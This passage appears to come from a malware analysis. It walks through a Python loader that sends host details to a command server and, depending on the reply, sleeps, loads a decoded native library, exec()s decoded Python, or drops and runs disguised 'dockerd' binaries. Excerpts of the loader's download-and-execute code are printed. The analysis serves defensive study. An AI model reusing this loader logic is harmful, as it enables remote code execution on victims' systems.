 ```py
params = {
        "system": platform.system(),
        "machine": platform.machine(),
        "version": platform.version()
    }
    while True:
        try:
            response = requests.post(url, verify=False, data = params, timeout=180)
```

Based on the server’s response (ret value), the loader decides its next steps.

##### ret == 0:

The script sleeps for 20 seconds and continues polling. 

```py
if res['ret'] == 0:
    time.sleep(20)
    continue
```

##### ret == 1:

The server response includes a payload in Base64. The script decodes this payload, and writes it to a file—named `init.dll` if on Windows or `init` otherwise—and then dynamically loads the library using `ctypes.cdll.LoadLibrary`, which causes the payload to run as a native binary.

```py
elif res['ret'] == 1:
    if platform.system() == "Windows":
        body_path = os.path.join(directory, "init.dll")
    else:
        body_path = os.path.join(directory, "init")
        with open(body_path, "wb") as f:
            binData = base64.b64decode(res["content"])
            f.write(binData)
            os.environ["X_DATABASE_NAME"] = ""
            ctypes.cdll.LoadLibrary(body_path)
```

##### ret == 2:

The script decodes the Base64 content into Python source code and then executes it using Python’s `exec()` function. This allows for running arbitrary Python code.

```py
elif res['ret'] == 2:
    srcData = base64.b64decode(res["content"])
    exec(srcData)
```

##### ret == 3:

The script decodes a binary payload (`dockerd`) and a binary configuration file (`docker-init`) into two separate files, sets their permissions to be executable, and then attempts to run them as a new process, supplying the config file as an argument to the binary payload. After execution of the binary payload, it deletes its executable file, leaving the config file on disk for reference.
